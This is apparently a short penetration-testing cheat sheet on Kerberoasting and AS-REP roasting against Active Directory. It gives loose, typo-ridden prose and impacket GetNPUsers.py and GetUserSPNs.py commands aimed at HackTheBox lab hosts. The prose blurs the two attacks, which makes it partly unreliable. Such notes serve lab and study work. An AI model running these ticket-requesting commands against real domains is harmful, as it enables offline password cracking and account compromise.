 When you try to authenticate using Kerberos rather than sending the encrypted ticket, you contact the DC to the service, you will use off-line brute force to crack the password associated with the service.

several times you will need an active account on the domain in orfer to initial Kerbroast, but if the DC is configured with `UserAccountControl setting “Do not require Kerberos preauthentication” enabled or UF_DONT_REQUIRE_PREAUTH set to true` it is possible to request and recieve a ticket to crack wihtout a valid account on the domain.

So you need users hashes and usernames you might get them from 445(rpcinfo)[[Services Checklist]]ny other way, 
then 
use `GetUserSPNs.py` by impacket.

```bash
# Multiple user 
for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done

# Single user 
GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```